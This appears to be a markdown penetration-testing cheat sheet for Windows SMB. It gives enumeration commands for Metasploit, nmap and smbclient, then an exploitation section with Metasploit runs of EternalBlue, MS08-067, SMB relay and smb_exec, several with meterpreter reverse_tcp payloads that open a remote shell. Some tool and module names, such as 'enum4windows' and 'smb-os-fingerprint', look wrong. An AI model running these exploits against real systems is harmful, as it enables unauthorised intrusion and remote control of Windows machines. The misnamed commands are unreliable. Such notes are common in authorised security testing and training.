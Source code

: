 # SMB (Windows)

## Enumeration
- SMB1: Windows 2000, XP, 2003 
- SMB2: Vista SP1, 2008 
- SMB2.1: 7 and 2008 R2 
- SMB3: 8 and Windows 2012 

## Enumeration

### Metasploit

##### smb_enumshares
```bash
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS [IP]
set RPORT 445
run
```

##### smb_version
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS [IP]
set RPORT 445
run
```

##### smb_enumusers
```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS [IP]
set RPORT 445
run
```

##### netapi
```bash
use auxiliary/scanner/smb/netapi
set RHOSTS [IP]
set RPORT 445
run
```

### Nmap

##### nmap (Samba share enumeration)
```bash
nmap -p 445 --script=smb-enum-shares [IP]
```

##### nmap (Samba version detection)
```bash
nmap -p 445 --script=smb-os-fingerprint [IP]
```

##### nmap (Samba users enumeration)
```bash
nmap -p 445 --script=smb-enum-users [IP]
```

### smbclient

##### smbclient (List shares)
```bash
smbclient -L //[IP] -U guest
```

##### smbclient (Access a share)
```bash
smbclient //[IP]/[SHARE] -U [USER]
```

### enum4windows

##### enum4windows (Basic SMB enumeration)
```bash
enum4windows -a [IP]
```

##### enum4windows (List shares)
```bash
enum4windows -S [IP]
```


---
---


## Exploitation

### Metasploit

##### ms17_010_eternalblue
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [IP]
set RPORT 445
run
```

##### smb_relay
```bash
use exploit/windows/smb/smb_relay
set RHOSTS [IP]
set RPORT 445
set SMBUser [username]
set SMBPass [password]
run
```

##### smb_exec
```bash
use exploit/windows/smb/smb_exec
set RHOSTS [IP]
set RPORT 445
set SMBUser [username]
set SMBPass [password]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```

##### ms08_067_netapi
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS [IP]
set RPORT 445
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [port]
run
```
